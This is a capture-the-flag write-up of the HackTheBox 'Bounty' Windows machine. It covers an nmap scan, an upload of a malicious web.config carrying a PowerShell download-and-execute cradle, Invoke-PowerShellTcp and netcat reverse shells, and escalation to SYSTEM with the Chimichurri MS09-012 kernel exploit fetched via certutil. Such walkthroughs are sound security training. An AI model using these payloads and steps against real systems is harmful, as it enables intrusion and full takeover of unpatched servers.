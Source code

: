 # HackTheBox
------------------------------------
### IP: 10.129.151.131
### Name: Easy
### Difficulty: Easy
--------------------------------------------

![Bounty.png](../assets/bounty_assets/Bounty.png)

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Bounty]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV  10.129.151.131
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-29 06:53 CDT
Nmap scan report for 10.129.151.131
Host is up (0.071s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Bounty
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.45 seconds
```

Looks like only port 80 HTTP is open for TCP. That's a bit odd because usually Windows boxes have a lot more services listening than that.

Looking at the webpage we find a jpeg of a wizard:

bounty_merlin.png

Starting some directory scanning we find a `/transfer.aspx` endpoint, as well as `/uploadedfiles`

Looking at `/transfer.aspx` we find a simple file upload:

bounty_transfer_page.png

Trying to access `/uploadedfiles` however we get access denied.

bounty_denied.png

Trying to upload a file called test.txt, we get this error: `Invalid File. Please try again`

Capturing the request in Burp and manually trying a few different file types, I fund we can successfully load a .doc file:

bounty_burp1.png

This also works for docx files too.

However I'm still unable to access these files from `/uploadedfiles` as we get a message saying file not found.

My first instinct is to use something like https://github.com/Greenwolf/ntlm_theft to create a malicious file to steal NTLM hashes as a client side attack, but I'm not sure there's any service on the other end that would 'open' the file. But more importantly, even if I did capture a hash, what would I do with it? So far in my enumeration there is nowhere to login and no other services running. 

Going back to Burp I notice we can also upload .config files. 

Lets try loading a malicious web.config file that will download and execute a powershell revers shell.

### Exploitation

I can grab the malicious web.config file from: https://github.com/d4t4s3c/OffensiveReverseShellCheatSheet/blob/master/web.config and we can adjust the powershell download cradle to our local IP:

```
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.114/Invoke-PowerShellTcp.ps1')")
%>
```

Then we'll transfer to our working directory a copy of Invoke-PowerShellTcp.ps1, and edit the last line :

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.114 -Port 443
```

Lets set up a python http.server and our listener and load the web.config file:

bounty_good.png

We can then call the script by navigating to: http://10.129.151.131/uploadedfiles/web.config

We can confirm that Invoke-PowerShellTcp.ps1 has been downloaded, and we catch a shell back as user merlin:

```
┌──(ryan㉿kali)-[~/HTB/Bounty]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.151.131 - - [29/Jun/2024 08:24:35] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

```
┌──(ryan㉿kali)-[~/HTB/Bounty]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.114] from (UNKNOWN) [10.129.151.131] 49160

Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>PS C:\windows\system32\inetsrv> whoami
bounty\merlin
PS C:\windows\system32\inetsrv> hostname
bounty
```

We can then find the user flag using `dir -Force`:

bounty_user_flag.png

### Privilege Escalation

Running `whoami -all` we see that SeImpersonatePrivileges is set.

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Normally finding this means an easy path to system via a Potato exploit or via PrintSpoofer, but for some reason I was never able to get those to work here, and I'm not entirely sure why.

Because I know this is an old box, I decided to run `systeminfo` to see what kind of patching is in place:

```
PS C:\users\merlin\desktop> systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          6/29/2024, 2:49:50 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,401 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,170 MB
Virtual Memory: In Use:    925 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.151.131
                                 [02]: fe80::c0af:a074:2e2e:5b82
                                 [03]: dead:beef::c0af:a074:2e2e:5b82
```
We can see here we're on a Windows Server 2008 R2 and that no hotfixes have been made.

This is likely vulnerable to a kernel exploit based on the age of the box and the fact its not been patched. 

Lets use: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012/Chimichurri

We can set up a netcat listener and python server, transfer the exploit, and run it:

```
PS C:\users\merlin\desktop> certutil -urlcache -split -f "http://10.10.14.114/Chimichurri.exe"
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.
PS C:\users\merlin\desktop> ./Chimichurri.exe 10.10.14.114 445
```

This catches us a shell back as system:

```
┌──(ryan㉿kali)-[~/HTB/Bounty]
└─$ nc -lnvp 445            
listening on [any] 445 ...
connect to [10.10.14.114] from (UNKNOWN) [10.129.151.131] 49201
whoamMicrosoft Windows [Version 6.1.7600]i
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\users\merlin\desktop>
whoami
nt authority\system
```

And we can now grab the root.txt flag:

bounty_root_flag.png

Thanks for following along!

-Ryan

--------------------------------------------------
